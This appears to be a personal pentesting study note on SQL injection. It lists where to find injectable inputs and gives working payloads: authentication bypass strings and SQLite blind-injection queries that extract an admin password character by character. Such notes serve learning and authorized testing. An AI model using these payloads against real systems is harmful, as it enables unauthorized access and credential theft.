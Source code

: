 ```yaml
---
id: SQL_Injection
aliases:
  - Where To Look
  - Conditions
tags: []
---
```


### Conditions
1.) Submitted query must not be sanitized, or sanitization must be circumvented.

### Where To Look
#### Forms 
![Forms](../../media/sqli_1.png)
Often, form data is submitted 

#### URL Parameters 
![URL Parameters](../../media/sqli_2.png)
Sometimes the input can be directly manipulated from the URL

#### POST Injection  
If client-side sanitization takes place, can circumvent it by sending a POST request directly to the server-side API.
- [[burpsuite|Burpsuite]]
- [[curl|Curl]]
- Can also accomplish through the devtools in the browser


### What it looks like
#### Authentication Forms
In the username or password field adding one of the following inputs (dependent on SQL DB used on the backend):

`admin' OR 1=1-- -`
`admin' OR '1'='1'-- -`
`admin' OR 1=1;#`

#### Blind Injection
Boolean queries to extract info.
Can use the following tools:
- [[../../tools/sqlmap.md|SQLmap]]

Test for length of password (SQLite)
`admin' AND length((SELECT password from users where username='admin'))==37-- -`

Test for character in password (SQLite)
- `CAST(X'54' as Text')`: The way to represent a capital T in SQLite (X is hex; 54 is ASCII for 'T')
`admin' AND SUBSTR((SELECT password FROM users LIMIT 0,1),1,1) = CAST(X'54' as Text)-- -`

